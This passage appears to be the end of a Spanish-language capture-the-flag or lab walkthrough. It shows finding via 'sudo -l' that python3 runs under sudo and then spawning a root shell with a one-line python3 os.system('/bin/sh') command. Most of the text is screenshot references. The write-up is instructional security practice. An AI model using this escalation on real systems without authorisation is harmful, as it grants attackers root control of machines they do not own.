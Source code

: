 ![[Pasted image 20240419030448.png]]

Ahora ejecutamos nuevamente el comando

	sudo -l

![[Pasted image 20240419030518.png]]

Y listo!. Ahora que sabemos que python3 opera bajo sudo, aprovecharemos los comandos que encontramos en el history.

	sudo python3 -c 'import os; os.system("/bin/sh")'

![[Pasted image 20240419031823.png]]

Ahora naveguemos un poco para ver que mas podemos encontrar una vez que hemos escalado privilegios.

![[Pasted image 20240419032031.png]]

Y listo, hemos Finalizado!!!.


